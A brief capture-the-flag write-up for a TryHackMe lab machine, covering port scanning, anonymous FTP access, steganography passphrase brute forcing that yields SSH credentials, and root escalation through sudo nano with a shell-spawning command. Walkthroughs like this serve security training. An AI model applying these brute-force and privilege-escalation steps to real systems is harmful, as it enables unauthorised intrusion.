 #ctf #tryhackme
# Brooklyn Nine Nine
---

## Nmap
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

## Feroxbuster/Gobuster
Found nothing interesting
/server-status (Status: 403)

Open the URL in browser
Found a page with image on it

Inspecting page source
> <!-- Have you ever heard of steganography? -->

Downloade image and use steghide to find password

## FTP
Anonymous login is allowed
`ftp <machine-ip>`

Found 1 file: note\_to\_jake.txt
Download it to attacker machine and cat

> From Amy,
> 
> Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

Two user:
    - Amy
    - Jake
    - holt (?)

try ssh brute forcing on user Jake

## Steghide
Need a passphrase to extract info

Using stegcracker/stegbrute to brute force password
Successful :o

Password found: admin

> Holts Password:
> fluffydog12@ninenine
> 
> Enjoy!!


Try to ssh using creds holt:fluffydog12@ninenine
Success. Gained shell

found 2 files:
-rw------- 1 root root 110 May 18  2020 nano.save
-rw-rw-r-- 1 holt holt  33 May 17  2020 user.txt

run `sudo -l`
> User holt may run the following commands on brookly\_nine\_nine:
>    (ALL) NOPASSWD: /bin/nano

means holt can run nano as root
`sudo /bin/nano` -> this will open nano as root
now press ctrl+r and ctrl+x to go into execute command mode
now run `reset; sh 1>&0 2>&0`

Gained root shell (within nano)
cd to /root to find root.txt

[DONE]
